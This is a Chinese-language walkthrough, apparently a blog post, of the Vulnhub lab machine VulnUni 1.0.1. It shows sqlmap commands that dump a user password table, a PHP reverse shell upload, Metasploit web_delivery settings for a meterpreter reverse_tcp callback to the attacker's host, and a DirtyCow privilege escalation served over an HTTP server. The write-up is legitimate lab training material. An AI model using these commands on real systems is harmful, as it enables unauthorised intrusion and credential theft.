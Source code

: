 ```yaml
---
title: VulnUni:1.0.1 Walkthrough
date: 2020-04-30T20:14:21+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub
---
```

### 主机识别

`netdiscover -i wlan0`

### 网络拓扑

| 计算机     | IP              |
| ------- | --------------- |
| Kali    | `192.168.1.107` |
| Vulnuni | `192.168.1.105` |

### 扫描端口和版本信息

`nmap -A 192.168.1.105`

![1.png](https://i.loli.net/2020/04/30/5jzvrqu7Ym6xZHe.png) 

### 访问Web并确认web应用

![2.png](https://i.loli.net/2020/04/30/SpsVNLcYn9rqBDW.png) 

### 使用 BurpSuite 高级功能扫描Web应用

我们使用 `dirb`、`dirsearch`这类基于字典的web应用扫描器很难获取web网站有哪些网页，因此可以使用 BurpSuite 的高级功能 **Discover Content** ，经过一段时间我们就可以得到大致 web site map ，发现登录页面

![3.png](https://i.loli.net/2020/04/30/HemNt1hDCMjsAyJ.png) 

根据页面信息，我们了解到该web应用是 **某eClass**， 经过OSINT查到该页面存在SQL注入，这样我们就可以进行Sqlmap注入了

![4.png](https://i.loli.net/2020/04/30/CSZF4xX76rkmGby.png) 

因此将该页面保存为_post.txt_，使用sqlmap进行SQL注入

![5.png](https://i.loli.net/2020/04/30/lbT7vUWgwJBxDpY.png) 

`sqlmap -r post.txt --dbs --batch`

`sqlmap -r post.txt -D eclass --tables --batch`

`sqlmap -r post.txt -D eclass -T user --columns --batch`

`sqlmap -r post.txt -D eclass -T user -C password --dump --batch`

![6.png](https://i.loli.net/2020/04/30/KGtjgf2IOAYbM1P.png) 

经过尝试，使用`admin:ilikecats89` 账号密码登录，下一步我们就找找是否有漏洞页面，最常见的就是文件上传漏洞获取webshell，同样是采用BP搜索（**Finder References**），不过将目标缩短在登录之后的页面

> 利用过滤功能（`type="file"`）可以快速定位到具有文件上传功能的网页 

![8.png](https://i.loli.net/2020/04/30/HXNpR7FSCdOWlo2.png) 

目标找到`http://vulnuni.local/vulnuni-eclass/modules/course_info/restore_course.php`

![7.png](https://i.loli.net/2020/04/30/B1WH7tFsAL8jkYO.png) 

更改 [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 中的IP（`192.168.1.107`）和端口信息（`8866`）并且将其压缩上传，对于上传文件存在的路径，使用同样的方法定位在 _courses_ 目录下，访问该链接，并且在 kali 下开启监听端口

![9.png](https://i.loli.net/2020/04/30/YUay5DkfrqeniJC.png) 

`find / -name flag* -type f`

这里通过搜索 _flag_，定位到该目录下（_/home/vulnuni_），使用`cat`命令是可以读到flag的，不过为了完成完整的测试，目的是知道虚拟机的登录密码，因此需要将该会话建立在_msf_中，后续进行提权

### msf 建立会话

```bash
use exploit/multi/script/web_delivery
set target 1
set lhost 192.168.1.107
set payload php/meterpreter/reverse_tcp
set srvport 4455
exploit
```

![10.png](https://i.loli.net/2020/04/30/Vqt6c5uQmOsyKlF.png) 

通过将图中选中部分复制到临时会话中运行，我们（Kali）就会在 _meterpreter_ 建立了与该虚拟机的会话

![11.png](https://i.loli.net/2020/04/30/ZeGjQDwr2CatVFs.png) 

### 权限提升

Linux 环境下的权限提升大多根据内核版本进行提权，因此首要任务就是获取该虚拟机的内核版本，执行命令`uname -r`

![12.png](https://i.loli.net/2020/04/30/haXLrqxQ9WBuMpi.png) 

通过 OSINT，我们知道该内核存在漏洞 [DirtyCow](https://www.exploit-db.com/exploits/40616)，下载 exp，重命名为 _cowroot.c_ 源文件，在 Kali 上运行简单的HTTP服务器（`python3 -m http.server 8088`），将该源码传到虚拟机中

![13.png](https://i.loli.net/2020/04/30/Pzad4utvc7T8ZmE.png) 

根据源码里的操作可以将权限提至root 权限，查看密码文件得到了该虚拟机经过 SHA-256 加密的登录密码

![14.png](https://i.loli.net/2020/04/30/W7ky4djHesqaKSw.png) 

### Ref.

  * [hackingarticles](https://www.hackingarticles.in/vulnuni-1-0-1-vulnhub-walkthrough/)